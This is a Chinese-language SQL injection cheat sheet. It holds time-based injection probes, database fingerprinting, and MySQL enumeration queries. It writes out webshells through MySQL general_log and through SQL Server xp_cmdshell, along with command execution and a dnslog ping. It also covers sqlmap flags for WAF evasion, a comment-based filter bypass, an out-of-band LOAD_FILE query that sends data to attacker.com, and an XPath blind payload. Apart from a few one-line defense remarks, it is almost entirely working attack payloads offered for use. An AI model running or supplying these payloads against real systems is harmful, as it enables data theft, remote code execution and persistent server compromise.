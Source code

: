 ## 判断是否有注入
`11'+//AND+//(//SELECT//+2868+//FROM//+(//SELECT//(SLEEP(2)))pcFy)+//AND//+'`

`%0dunion%0aselect%0auser`

## 初步判断数据库类型
`'and user>0`

如果有报错为：在将nvarchar值'dbo'转换成数据类型int时失败，则数据库为sqlserver数据库，不是mysql

## 判断数据库系统
`'and (select count(*) from sysobjects)>0  正常则是Mysql`

`'and (select count(*) from msysobjects)>0 正常则是SqlServer`

+ **;**	Oracle中不支持多行查询，返回错误，很可能是Oracle数据库
+ **#**	是MySQL中的注释符，返回错误说明该注入点可能不是MySQL
+ **–** 和**/**/**是Oracle，SQL server和MSSQL支持的注释符，如果正常，说明可能就是这仨了

## Mysql数据库
### 常用sql语句和函数
#### 查库
`select group_concat(shcema_name) from information_schema.schemata`

#### 查表
`select group_concat(table_name) from information_schema.tables where table_schema=库名`

#### 查列
`select group_concat(column_name) from information_schema.columns where table_name='表明'`

#### 查值
`select group_concat(列名1,';',列名2) from (select * from 库名.表名 limit 0,10) as a`

### GetShell
#### 查看数据库路径
`show variables like '%datadir%'` 通过显示数据库所在的路径来猜测web路径

#### 查看是否开启日志
`show variables like '%general%'`

#### 开启日志
`set global general_log = "ON";`

#### 设置日志路径
`set global general_log_file ='<网站根目录>/config.php';`

#### 写入webshell
`select "<?php @eval($_POST[abc]);?>";`

#### 连接getshell
`https://<web路径>/config.php`

## Sql Server数据库
### 判断是否为sa权限
`;if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:5';--`

### 查看是否开启了xp_cmdshell
`;if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5'--`

### 开启xp_cmdshell(SA权限用户)
`;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;`

### 执行cmd命令
`;EXEC master..xp_cmdshell 'cmd命令';--`

### 查看是否开启成功（是否出网）
`;EXEC%20master..xp_cmdshell 'ping aa.dnslog';--`

### 写入webshell
`;EXEC%20master..xp_cmdshell 'echo ^<%eval request(chr(35))%^> > C:/inetpub/xxxxxx/a.asp';--`

## sqlmap语法
demo：`sqlmap -r 1.txt --random-agent --tamper=space2comment --level 4 --risk 3 --technique=T --dbms=mysql -p uname --dbs`

+ --random-agent：header头中的agent随机伪造，默认agent是有特征的会被waf拦截
+ --technique：指定探测技术，B 布尔盲注；T 时间盲注；E 报错注入；U 联合查询
+ --batch：自动选择过程中的询问请求
+ --tamper=space2comment：使用脚本绕过waf或过滤，默认脚本放在tamper目录下
+ --level：测试深度，等级1-5。使用5级会使用更多的payload
+ --risk：语句复杂度，等级越高越复杂，一般用3
+ --force-ssl：使用https服务，需要改端口后面加端口
+ --dbms：指定数据库类型
+ --cookie：指定cookie值
+ --is-dba：检测数据库权限。如果DBA是True可以尝试直接拿shell
+ -p：指定测试参数
+ -D：指定数据库名
+ -T：指定表名
+ -C：指定字段名
+ --dbs：获取所有数据库名
+ --userss：获取用户名
+ --tables：获取所有表名
+ --colums：获取字段名
+ --dump：下载当前数据库的所有数据
+ **<font style="color:rgb(68, 68, 68);">--file-read：读取文件</font>**
+ --purge ：清理缓存

## 利用SQL注释与空白符绕过基于正则的SQL注入规则
```sql
SELECT/*!88888cas*/t(1)FROM/**/users WHERE 1=1 UNION%a0SELECT version()
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：利用SQL注释与空白符干扰词法分析  
</font>**<font style="color:rgb(51, 51, 51);">突破点</font>**<font style="color:rgb(63, 63, 63);">：绕过基于正则的SQL注入规则  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：启用SQL语义分析引擎</font>

## OOB外带数据通道
```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\test'))
```

**<font style="color:rgb(51, 51, 51);">检测突破</font>**<font style="color:rgb(63, 63, 63);">：基于时间的盲注检测失效  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：限制出站DNS请求</font>

## <font style="color:rgb(51, 51, 51);">XPath盲注载荷生成</font>
```sql
' or count(/*)=1 or 'a'='b
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：通过节点数量判断结构信息  
</font>**<font style="color:rgb(51, 51, 51);">检测方案</font>**<font style="color:rgb(63, 63, 63);">：XPath查询参数化</font>

